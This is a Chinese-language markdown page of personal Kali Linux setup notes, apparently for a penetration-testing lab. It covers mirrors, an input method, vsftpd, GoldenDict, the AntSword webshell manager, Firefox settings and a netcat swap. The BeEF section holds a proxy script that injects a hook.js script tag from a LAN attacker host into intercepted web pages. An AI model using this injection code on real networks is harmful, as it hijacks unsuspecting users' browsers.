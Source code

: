 # Kali 配置

## 安装 VMware Tools

- 复制 VMware Tools \*\*\*.tar.gz 到任意目录
- 解压 tar -xzvf VMware Tools \*\*\*.tar.gz(所在目录执行)
- 进入 vmware-tools-distrib (所在目录)执行 ./vmware-install.pl
- 一直回车,直到 Enjoy，--the WMware team 安装完成

## 更新源

- 编辑: /etc/apt/sources.list (复制下面内容并保存)

```
#阿里云
deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib

#清华大学
deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free

#中科大
deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib

#东软大学
#deb http://mirrors.neusoft.edu.cn/kali kali-rolling/main non-free contrib
#deb-src http://mirrors.neusoft.edu.cn/kali kali-rolling/main non-free contrib

#官方源
#deb http://http.kali.org/kali kali-rolling main non-free contrib
#deb-src http://http.kali.org/kali kali-rolling main non-free contrib
```

## 安装输入法

- apt-get install fcitx
- apt-get install fcitx-googlepinyin (谷歌拼音)
- reboot (重启电脑)

## 安装和配置 ftp

- apt-get install vsftpd
- mkdir /home/ftp (新建用户目录)
- chmod 777 /home/ftp (改变文件读写权限)

* useradd -d /home/ftp -s /sbin/nologin ftp (新建用户,如果已有该用户可以用 userdel 删除)
* passwd ftp (设置密码)
* vim /etc/vsftpd.conf

```
listen=YES             #开启监听
listen_ipv6=NO
anonymous_enable=NO    #拒绝匿名访问
local_enable=YES       #允许本地用户登录
write_enable=YES       #开启可写权限
local_umask=022        #实际权限为文件原本的权限-umask
connect_from_port_20=YES
ftpd_banner=Welcome! My friends!    #可以自定义banner
chroot_local_user=YES               #防止用户访问其他目录
allow_writeable_chroot=YES          #如果用户被限定在了其主目录下，则该用户的主目录不能再具有写权限了。如果检查发现还有写权限，就会报错
userlist_deny=NO                    #拒绝访问用户列表
userlist_enable=YES                 #允许访问用户列表
userlist_file=/etc/allowed_users    #允许访问用户列表文件
seccomp_sandbox=no                  #防止各种莫名错误
xferlog_enable=YES                  #记录ftp传输过程
xferlog_file=/var/log/vsftpd.log    #ftp传输日志文件
xferlog_std_format=YES              #使用标准的ftp xferlog模式
```

- vim /etc/allowed_users (添加允许访问的用户`ftp`)
- vim /etc/ftpusers (查看禁止访问用户`删除ftp`)
- vim /etc/pam.d/vsftpd

```
针对auth required pam_shells.so的两种方案
第一种:auth required pam_nologin.so
第二种:#auth required pam_shells.so
```

## 安装 GoldenDict 翻译

- apt-get install goldendict
- 设置网络词典 http://dict.youdao.com/search?q=%GDWORD%&ue=utf8 (启用 √)
- 设置本地词典 /usr/share/goldendict/dict/词典文件夹 (递归搜索 √)
- 词典下载链接 http://download.huzheng.org/zh_CN/
- 首选项设置屏幕取词等
- **注意:主页的笔和球是否已使用**

## 配置 beef

- /usr/share/beef-xss/config.yaml

```
passwd: 密码
host: 本机ip
metasploit配置项  enable:true
```

```
function onResponse(req, res) {
    if( res.ContentType.indexOf('text/html') == 0 ){
        var body = res.ReadBody();
        if( body.indexOf('</head>') != -1 ) {
            res.Body = body.replace(
                '</head>',
                '<script src="http://192.168.0.148:3000/hook.js">'+
                '</script>' +
                '</head>'
            );
        }
    }
}
```

## 安装中国蚁剑

- 下载地址:https://github.com/AntSwordProject/AntSword-Loader
- 解压并进入文件目录,然后终端执行 **./AntSword**
- **mkdir 文件夹名字(英文名)** ⬅ 创建文件夹,并且安装时指定路径 **(用于存储数据等)**
- 安装完成后,解压的目录终端下执行 **./AntSword** 进入蚁剑界面

## Firefox ESR 汉化

- apt -y install firefox-esr-l10n-zh-cn (下载安装语言包)
- 打开火狐浏览器右上角的菜单，选择''首选项''
- 向下滑动,到达语言栏(language),点击右边的按钮
- 在 Add 左边选择框中找到 zh-cn,点击 Add 添加
- 点击“确定”，重启浏览器

## Firefox 关闭 GET 请求到 detectportal.firefox.com

- 在 firefox 地址栏输入：about:config
- 搜索:network.captive-portal-service.enabled
- 双击改为 false

## nc,netcat

```
rm /usr/bin/nc
ln -s /usr/bin/nc.traditional /usr/bin/nc
rm /usr/bin/netcat
ln -s /usr/bin/nc.traditional /usr/bin/netcat
```